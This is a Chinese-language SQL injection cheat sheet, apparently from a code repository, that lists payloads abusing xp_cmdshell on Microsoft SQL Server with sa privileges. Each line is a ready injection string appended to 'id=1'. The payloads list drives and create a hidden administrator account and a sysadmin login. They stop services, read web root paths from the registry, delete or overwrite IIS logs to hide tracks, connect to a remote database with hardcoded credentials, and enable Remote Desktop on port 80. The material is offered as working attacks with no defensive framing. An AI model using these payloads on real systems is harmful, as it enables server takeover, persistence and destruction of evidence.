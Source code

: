 #### 2. sa权限下利用xp_cmdshell扩展执行任意命令

```
# 查看C盘（直接在id=1后面加下面语句）
id=1;drop table black;create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--;insert into black exec master..xp_cmdshell 'dir c:\'and 1=(select top 1 mulu from black where id=1)

# 新建用户（直接在id=1后面加下面语句）
id=1;exec master..xp_cmdshell 'net user test test /add';exec master..xp_cmdshell 'net localgroup administrators test /add'  	创建新用户test并添加到管理员组

# 添加和删除一个sa权限的用户test：（需要sa权限）
id=1;exec master.dbo.sp_addlogin test,[密码]  	创建sa权限的用户test
id=1;exec master.dbo.sp_addsrvrolemember test,sysadmin  	添加test到sa组里

# 停掉或激活某个服务：（需要sa权限）
id=1;exec master..xp_servicecontrol 'stop', 'schedule'  	schedule为服务名
id=1;exec master..xp_servicecontrol 'start', 'schedule'

# 暴网站目录（实际上有sa权限直接dir就可以了，不需要这么复杂）
id=1;create table labeng(lala nvarchar(255), id int)
id=1;DECLARE @result varchar(255) EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/',@result output insert into labeng(lala) values(@result);
id=1;and 1=(select top 1 lala from labeng) 
或者
id=1;and 1=(select count(*) from labeng where lala>1)

# 删除日志记录
id=1;exec master.dbo.xp_cmdshell 'del c:\winnt\system32\logfiles\w3svc5\ex070606.log >c:\temp.txt'

# 替换日志记录
id=1;exec master.dbo.xp_cmdshell 'copy c:\winnt\system32\logfiles\w3svc5\ex070404.log c:\winnt\system32\logfiles\w3svc5\ex070606.log >c:\temp.txt'

# 开启远程数据库
id=1;select * from OPENROWSET('SQLOLEDB', 'server=servername;uid=sa;pwd=apachy_123', 'select * from table')
或者
id=1;select * from OPENROWSET('SQLOLEDB', 'uid=sa;pwd=apachy_123;Network=DBMSSOCN;Address=202.100.100.1,1433;', 'select * from table')

# 打开3389
id=1;exec master..xp_cmdshell 'sc config termservice start=auto'
id=1;exec master..xp_cmdshell 'net start termservice'
id=1;exec master..xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x0 /f'        允许外部连接

# 改3389端口为80（80十六进制为0x50）
id=1;exec master..xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x50 /f'
```
